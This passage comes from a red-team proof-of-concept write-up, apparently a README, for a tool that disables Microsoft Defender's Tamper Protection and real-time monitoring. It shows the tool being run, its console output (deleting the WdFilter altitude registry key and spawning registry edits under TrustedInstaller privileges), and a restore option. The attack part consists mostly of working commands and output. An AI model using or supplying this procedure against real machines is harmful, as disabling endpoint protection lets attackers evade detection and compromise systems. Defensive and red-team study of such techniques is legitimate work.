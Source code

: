 3) Disable Defender / MDE components:

```
C:\Users\User\Desktop>.\Disable-TamperProtection.exe 3
[+] WdFilter Altitude Registry key has been successfully deleted.
[+] Trusted Installer handle: 000000000000011C
[!] Spawning registry with TrustedInstaller privileges to Disable 'RealtimeMonitoring' regkey.
[+] To disable other components of defender check source.
[+] Created process ID: 8040 and assigned additional token privileges.
```

*NOTE: Even though Tamper Protection is effectively disabled now, it takes a reboot to render the same change in the "Security Settings" GUI Prompt.*

The POC manages to semi-permanently disable Real time monitoring (grey out) after Tamper Protection is disabled. This can be remediated using option 4.

![](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/redteaming/Bypass-Tamper-Protection/Images/Pasted%20image%2020240311143923.png)

4) Reinstate / restore the WdFilter minidriver, TamperProtection and Defender Settings (Real-Time). Make sure to change the Altitude number (Default: 328010) back to it's original value at line 530 in the POC.  

```
# Restart the computer after execution to restore settings successfully
C:\Users\User\Desktop>.\Disable-TamperProtection.exe 4
[+] WdFilter Altitude Registry key has been successfully deleted.
[+] Make sure to change Altitude in Source (Default: 328010) and reboot computer after execution.
[+] Trusted Installer handle: 0000000000000120
[!] Spawning registry with TrustedInstaller privileges to Enable 'RealtimeMonitoring' regkey.
[+] Created process ID: 5852 and assigned additional token privileges.
[!] Spawning registry with TrustedInstaller privileges to Enable 'TamperProtection' regkey.
[+] Created process ID: 2744 and assigned additional token privileges.
[!] Spawning registry with TrustedInstaller privileges to restore WdFilter "Altitude" regkey.
[+] Created process ID: 7044 and assigned additional token privileges.
```
